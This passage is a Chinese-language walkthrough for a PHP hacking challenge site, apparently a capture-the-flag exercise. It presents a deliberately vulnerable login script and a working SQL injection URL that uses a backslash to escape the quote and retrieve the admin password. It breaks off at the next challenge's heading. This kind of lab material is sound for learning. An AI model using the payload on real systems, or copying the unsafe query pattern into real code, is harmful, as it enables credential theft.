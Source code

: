 # php4fun.sinaapp.com PHP挑战通关攻略

challenge 1
-----------

* * *

php code：

```
#GOAL: get password from admin;
error_reporting(0);
require 'db.inc.php';

function clean($str){
    if(get_magic_quotes_gpc()){
        $str=stripslashes($str);
    }
    return htmlentities($str, ENT_QUOTES);
}

$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
$result=mysql_query($query);
if(!$result || mysql_num_rows($result) < 1){
    die('Invalid password!');
}

$row = mysql_fetch_assoc($result);

echo "Hello ".$row['name']."</br>";
echo "Your password is:".$row['pass']."</br>";

```

### 攻略：

在单引号内的mysql注入，核心就是逃脱单引号，要么生成一个(htmlentities了单引号，不太可能)，要么...干掉一个。

### 所以：

```
http://php4fun.sinaapp.com/c1/index.php?username=admin\&password=%20or%201%23

```

challenge 2
-----------

* * *
